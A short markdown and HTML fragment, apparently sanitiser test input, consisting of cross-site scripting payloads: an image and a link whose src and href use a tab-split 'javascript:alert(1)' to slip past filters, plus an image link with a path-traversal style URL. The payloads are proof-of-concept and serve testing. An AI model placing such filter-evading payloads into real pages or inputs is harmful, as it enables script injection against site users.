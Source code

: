 ![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="javas	cript:alert(1)" width="javas	cript:alert(1)">

<a href="javas	cript:alert(1)">XSS</a>
